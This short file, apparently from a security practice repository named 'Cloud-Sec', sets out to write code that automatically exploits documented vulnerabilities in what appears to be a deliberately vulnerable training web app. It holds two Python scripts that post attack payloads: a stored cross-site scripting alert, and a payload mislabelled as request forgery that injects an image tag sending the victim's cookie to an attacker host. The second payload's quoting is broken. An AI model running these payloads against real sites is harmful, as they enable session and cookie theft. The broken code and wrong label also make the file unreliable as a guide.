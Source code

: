 # Cloud-Sec
create code that can automatically exploit its documented vulnerabilities. 

**Python Code for Cross-Site Scripting**

import requests
payload = "<script>alert('XSS Attack!');</script>" 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" 
data = {"feedback": payload} 
response = requests.post(url, data=data)
print(response.text)

**Python Code for Cross-Site Request Forgery**

import requests
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + '">';' 
url = "http://gruyere-app.com/settings" 
data = {"description": payload} 
response = requests.post(url, data=data)
print(response.text)
  

